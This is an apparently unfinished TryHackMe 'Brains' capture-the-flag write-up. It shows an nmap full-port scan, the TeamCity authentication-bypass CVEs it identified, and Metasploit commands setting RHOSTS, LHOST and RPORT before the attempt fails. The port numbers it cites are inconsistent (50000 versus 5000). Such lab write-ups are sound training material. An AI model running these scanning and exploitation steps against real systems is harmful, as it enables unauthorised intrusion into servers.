


# THM-Brains-Easy
Try Hack Me Write Up
Hack the Server and blue team
tags: Metasploit splunk

First were gonna run nmap to scan the ip address

`nmap -T4 -p- -A -oN nmap.txt <ip address>`

-T4 is second fastes scanning mode for nmap
-p- is all ports
-A extensive scan ie versons operating systems etc
-oN out puts to nmap.txt

OK nice some important looking things things I saw which included the different ports that were open and the services running on them.
Port 43229 and 50000.
Team city looks intersting to me, so when I look it up I find 
'CVE-2024-27198 and CVE-2024-27199: JetBrains TeamCity Multiple Authentication Bypass Vulnerabilities (FIXED)' 
This is where I open metasploit
`search teamcity`

`use 5`

Now we need to set Lhost local machine and Rhost remote machine used to define target and attacker machine...

`
set RHOSTS [Target_IP] could be a range too

set LHOST [Your_IP]
`

After checking and making sure I would be able to run the exploit I was getting some problems and I relized we the automatic port it was set to was the wrong one. I the begning we saw it was port 5000... 

so now we 
`set RPORT 5000`

I was wrong didn't work...

